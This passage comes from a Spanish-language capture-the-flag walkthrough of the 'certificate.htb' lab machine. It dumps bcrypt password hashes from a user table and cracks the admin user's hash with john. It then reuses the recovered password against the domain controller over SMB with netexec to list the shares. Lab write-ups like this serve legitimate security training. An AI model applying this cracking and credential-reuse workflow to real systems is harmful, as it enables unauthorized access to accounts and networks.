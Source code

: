 ```
15      test    test    test    test@test.com   $2y$04$dNz.4QiEQx5uhuK0Hck/qu9zjoY0WTdsvY/tKBaAgvXSUZz.DwdgW    2025-10-17 09:29:05     student 1
16      diseo   diseo   diseo   diseo@test.com  $2y$04$WMHt4YZY8VXm0Mbd7KENwOrM.U/fhj2soqms.5CR7OwFjjem83tiy    2025-10-17 19:59:32     student 1
```

Veremos muy interesante que el unico usuario que es `admin` en la pagina es el usuario `sara.b`, por lo que vamos a probar a `crackear` dicha contraseña.

## Escalate user sara.b

> hash

```
sara.b:$2y$04$CgDe/Thzw/Em/M4SkmXNbu0YdFo6uUs3nB.pzQPV.g8UdXikZNdH6
```

Ahora vamos a probar con `john`:

```shell
john --wordlist=<WORDLIST> hash
```

Info:

```
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 16 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Blink182         (sara.b)     
1g 0:00:00:00 DONE (2025-10-18 11:11) 1.612g/s 19741p/s 19741c/s 19741C/s monday1..vallejo
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Veremos que ha funcionado, pero en vez de iniciar sesion en la pagina, vamos a ver si estas credenciales son validas a nivel de sistema.

```shell
netexec smb <IP> -u sara.b -p 'Blink182' --shares
```

Info:

```
SMB         10.10.11.71     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:certificate.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.71     445    DC01             [+] certificate.htb\sara.b:Blink182 
SMB         10.10.11.71     445    DC01             [*] Enumerated shares
SMB         10.10.11.71     445    DC01             Share           Permissions     Remark
SMB         10.10.11.71     445    DC01             -----           -----------     ------
SMB         10.10.11.71     445    DC01             ADMIN$                          Remote Admin
SMB         10.10.11.71     445    DC01             C$                              Default share
SMB         10.10.11.71     445    DC01             IPC$            READ            Remote IPC
SMB         10.10.11.71     445    DC01             NETLOGON        READ            Logon server share 
SMB         10.10.11.71     445    DC01             SYSVOL          READ            Logon server share
```
